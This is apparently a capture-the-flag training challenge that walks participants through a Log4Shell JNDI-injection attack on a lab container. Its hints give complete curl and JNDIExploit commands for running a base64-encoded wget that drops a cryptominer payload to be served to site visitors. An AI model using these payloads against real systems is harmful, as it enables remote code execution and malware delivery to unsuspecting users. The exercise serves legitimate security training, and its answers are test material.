 # C1 - File Storage Security - Task 5: Drop It Like It’s Hot 🔥

## DESCRIPTION

Great! It looks like your malicious server is functioning properly. Not it's time to use it to run the exploit.

To do this, you have to make a request to http://sudosingles-optimizer. But you’re going to include a specially crafted header to call back to your malicious LDAP server and execute a command.

For this challenge, the command you want to execute inside the sudosingles-optimizer container will reach out to a malicious URL and drop a scary payload onto the filesystem—a payload which will execute whenever a user visits the website.

## DETAILS

== WHAT DO YOU NEED TO DO? ==
To complete this challenge, you must use a "Basic Command" exploit from JNDIExploit to execute the following command INSIDE THE SUDOSINGLES-OPTIMIZER container:  

wget PAYLOADDROPPERURL -O /srv/connectioncheck

(where PAYLOADDROPPERURL is the value found in FSSPayloadDropperUrl in the credential field below)

== WHAT DOES THIS DO? ==
FSSPayloadDropperUrl is a special URL that can be used to drop a cryptominer onto the host. If you manage to execute that "wget <…>" command inside the sudosingles-optimizer container, you will download a malicious payload from the internet and drop it in the container's file system.

== WHY DO YOU WANT TO DO THIS? ==
All images that appear on the SudoSingles™ website have to pass through the sudosingles-optimizer container for processing. Therefore, if a malicious file is present in the sudosingles-optimizer container, it will be served to ALL USERS of SudoSingles™. That's some good pwnage.

== HOW ARE YOU GOING TO DO THIS? ==
Great question, champ. That's what this challenge is all about. Here's my guidance:

1. Open a new Terminal Emulator window inside the hacker directory and execute the following: "java -jar JNDIExploit-1.2-SNAPSHOT.jar -i $(hostname -I) --usage"
2. This should tell you how to "use" the exploits contained in JNDIExploit. What do you see? Scroll around the output and take note of the options, *especially those at the top of the list*.
3. You already know that you can execute the JNDIExploit's "Basic SpringEcho" exploit using: curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'
4. This time, your task is to use one of the "Basic Command" exploits from JNDIExploit to execute the "wget <…>" command inside the sudosingles-optimizer container.
5. Look at the output of #2. Can you find any information there to help you accomplish #4?
6. If you're trying to execute the "wget <…>" command on the attack machine, you're barking up the wrong tree. Remember, you need to use an exploit from JNDIExploit to execute it on the sudosingles-optimizer container.
7. My last piece of advice, and the only free hint I'll give you, is that you'll need to somehow **encode** the "wget <…>" command in order to execute it using **one of** the "Basic Command" exploits. 

Good luck -- this one can be challenging. Be sure to read carefully and make sure you understand each step. Also, don't be afraid to take the hints. I've written a lot for you, so take advantage of them before bugging Support. Also, remember that you're trying to execute one of the most famous exploits in the last few years. I'm sure there are a few blog posts out there about how it works.

When you believe you’ve successfully performed the exploit, click “Verify” to check your work.

## NOTES

No actual ransomware is used in this challenge, so don’t worry. We’re just having fun here on Tech Day.

## SCORING

payloadChecker

## HINTS

### HINT 1

The exploit you need to run is NOT "/Basic/Command/[cmd]"

### HINT 2

You need to run the "/Basic/Command/Base64/[base64_encoded_command]" exploit. Therefore, your command will look something like: curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/[base64_encoded_command]}'.

### HINT 3

Command still not working? Check out the instructions in the Details section again, especially #7. If you're trying to run "curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/wget PAYLOADDROPPERURL -O /srv/connectioncheck}'", it will never work. Make sure you substitute PAYLOADDROPPERURL in correctly, and then follow the advice of #6 to achieve victory!

### HINT 4

You need to encode the malicious command as base64, and add it to the ldap URL. For example: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/BASE_64_ENCODED_COMMAND}. If that isn’t working for you, triple-check to make sure that you have encoded the malicious command correctly. You can encode the command using any tool you want, but base64encode.org is a great resource.

### HINT 5

1. Craft the malicious command: wget PAYLOADDROPPERURL -O /srv/connectioncheck
2. Encode it as base64 using any tool. Base64encode.org is a great option.
3. Replace it in the command: curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/ENCODED_PAYLOAD}'
4. Execute
5. Verify
